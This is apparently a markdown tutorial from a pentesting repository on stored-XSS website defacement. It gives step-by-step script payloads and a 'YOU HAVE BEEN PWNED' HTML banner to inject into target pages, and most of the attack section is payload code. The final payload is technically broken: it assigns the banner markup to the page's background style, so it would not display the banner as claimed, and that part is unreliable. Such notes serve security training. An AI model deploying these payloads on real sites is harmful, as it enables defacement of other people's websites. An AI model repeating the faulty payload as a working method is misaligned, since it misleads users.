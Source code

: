 # XSS Defacing Attacks.
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.
We can utilize injected JavaScript code (through XSS) to make a web page look any way we like.

## Perfarming Defacing.
- To perform a XSS Defacing attack the first step must be to _find the appropriate payload_. eg:
```javascript
<script>document.body.style.background = "#141d2b"</script>
```
- After that we have to write the HTML document that we want to deploy into the target, eg: 
 ```html
<center>
    <h1 style="color: white">YOU HAVE BEEN PWNED</h1>
    <body style="background-color:#171717">
    <p style="color: white">
        <img src="IMGURL" height="400px">
    </p>
    <h2>XSS DEFACING</h2>
    <h3>by TBHD </h3>
</center>
```
- We will must _minify the HTML code into a single line_:
```html
<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="IMGURL" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>
```
- The last step is to _add the minified HTML code to our previous XSS payload_ following the pattern `<script>document.body.style.background='HTML'</script>` = `<>PAYLOAD='HTML'<>`.</br>
__The final payload should be as follows:__
```html
<script>document.body.style.background='<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="http://192.168.1.54/skull.jpg" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>'</script>
```
__XSS DEFACING FINAL RESULT__
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/138ab5c6-9d62-4038-9c67-442ba4040264" width="450">



